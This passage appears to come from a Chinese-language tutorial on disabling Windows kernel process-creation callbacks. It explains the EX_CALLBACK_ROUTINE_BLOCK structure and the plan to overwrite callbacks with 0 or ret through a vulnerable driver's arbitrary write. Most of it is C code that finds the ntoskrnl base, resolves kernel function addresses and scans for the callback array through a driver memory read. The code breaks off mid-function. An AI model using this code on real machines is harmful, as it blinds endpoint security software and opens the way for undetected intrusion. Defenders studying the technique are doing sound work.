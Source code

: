 此结构体为`EX_CALLBACK_ROUTINE_BLOCK` ，它是没有记录。但是 ReactOS 给了它定义：

```bash
typedef struct _EX_CALLBACK_ROUTINE_BLOCK {
    EX_RUNDOWN_REF RundownProtect;
    PEX_CALLBACK_FUNCTION Function;
    PVOID Context;
} EX_CALLBACK_ROUTINE_BLOCK, *PEX_CALLBACK_ROUTINE_BLOCK;
```

该结构体前 8 位是`EX_RUNDOWN_REF` 结构，可以忽略，后面的`PEX_CALLBACK_FUNCTION` 就是回调函数的地址，如上图。

拿到这个回调函数地址之后可以利用驱动的任意地址写向其写入 0 或 ret 指令，来使其失效。话不多说，下面来看一下代码实现。

```bash
#include "header.h"
HANDLE hDevice = NULL;
HANDLE Process = NULL;

PVOID GetNtoskrnlBase() {
    PRTL_PROCESS_MODULES ModuleInfo = (PRTL_PROCESS_MODULES)calloc(1024 * 1024,1);
    NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, ModuleInfo, 1024*1024, NULL);
    if (!NT_SUCCESS(status)) {
        return 0;
    }

    for (int i = 0; i < ModuleInfo->NumberOfModules; i++)
    {
        if (lstrcmpiA((LPCSTR)(ModuleInfo->Modules[i].FullPathName + ModuleInfo->Modules[i].OffsetToFileName), "ntoskrnl.exe") == 0) {

            return ModuleInfo->Modules[i].ImageBase;
        }
    }
    return 0;
}
INT64 GetFuncAddress(CHAR* FuncName) {

    PVOID KBase=GetNtoskrnlBase();
    if (KBase == 0) {
        printf("未找到ntoskrnl.exe基地址\n");
        return 0;
    }
    HMODULE ntos = LoadLibraryA("ntoskrnl.exe");
    ULONG PocAddress = (ULONG)GetProcAddress(ntos, FuncName);
    ULONG Offset = PocAddress - (ULONG)ntos;
    return (INT64)KBase+Offset;
}
INT64 GetPspCreateProcessNotifyRoutineArray() {
    INT64 PsSetCallbacksNotifyRoutineAddress = GetFuncAddress((CHAR*)"PsSetCreateProcessNotifyRoutine");
    if (PsSetCallbacksNotifyRoutineAddress == 0) return 0;
    //定位 PspSetCreateProcessNotifyRoutine 函数地址
    INT count = 0;
    BYTE* buffer = (BYTE*)malloc(1);
    while (1) {
        DriverReadMemery((VOID*)PsSetCallbacksNotifyRoutineAddress, buffer,1);
        if (*buffer == 0xE8 || *buffer == 0xE9) {
            break;
        }
        PsSetCallbacksNotifyRoutineAddress = PsSetCallbacksNotifyRoutineAddress + 1;
        if (count == 200) {
            printf("未找到 Pspsetcreateprocessnotifyroutine 函数地址\n");
            return 0;
        }
```